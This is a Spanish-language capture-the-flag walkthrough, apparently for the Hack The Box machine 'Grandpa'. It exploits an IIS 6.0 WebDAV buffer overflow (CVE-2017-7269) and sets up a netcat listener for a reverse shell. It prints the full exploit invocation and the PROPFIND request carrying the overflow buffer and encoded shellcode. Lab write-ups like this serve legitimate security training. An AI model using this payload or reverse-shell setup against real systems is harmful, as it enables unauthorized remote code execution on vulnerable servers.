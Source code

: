 ### Web Enumeration

Esto es lo que vemos al acceder a la `web`

![](/assets/img/Grandpa/image_1.png)

## Web Exploitation

La web tiene dispone del servicio `webdav` y el `IIS` tiene la `versión 6.0` por lo tanto es vulnerable a `Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow` el `CVE` es `2017-7269`. El exploit usado es [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269), antes de ejecutar el exploit nos ponemos en escucha con netcat por el puerto 4444

```
# nc -nlvp 4444
```

Ejecutamos el exploit

```
# python2 iis6_exploit.py 10.129.95.233 80 10.10.16.16 4444
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```
